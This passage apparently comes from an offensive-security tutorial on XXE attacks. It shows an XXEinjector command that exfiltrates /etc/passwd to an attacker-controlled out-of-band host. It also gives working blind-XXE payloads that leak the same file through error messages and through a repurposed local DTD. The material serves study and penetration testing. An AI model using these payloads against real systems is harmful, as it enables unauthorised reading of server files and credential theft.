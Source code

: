 Now we can run the tool:

```bash
ruby XXEinjector.rb --host=$IPAttacker --httpport=$port --file=$filename --path=/etc/passwd --oob=http --phpfilter

# Example:
ruby XXEinjector.rb --host=10.10.14.207 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

And see the logs under the new created Log folder within the tool:

```bash
cat Logs/10.129.210.196/etc/passwd.log 
```



### 5. Blind XXE to retrieve data via error messages

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. 

- Trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; %error;

```

Invoking the malicious external DTD may result in an error message like the following:

```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin
```


### 6. Blind XXE by repurposing a local DTD

If a document's DTD uses a hybrid of internal and external DTD declarations, then the internal DTD can redefine entities that are declared in the external DTD. When this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed.

 Essentially, the attack involves invoking a DTD file that happens to exist on the local filesystem and repurposing it to redefine an existing entity in a way that triggers a parsing error containing sensitive data.

For example, suppose there is a DTD file on the server filesystem at the location `/usr/local/app/schema.dtd`, and this DTD file defines an entity called `custom_entity`. An attacker can trigger an XML parsing error message containing the contents of the `/etc/passwd` file by submitting a hybrid DTD like the following:

```
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> 
<!ENTITY % custom_entity ' 
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> 
%local_dtd; 
]>
```
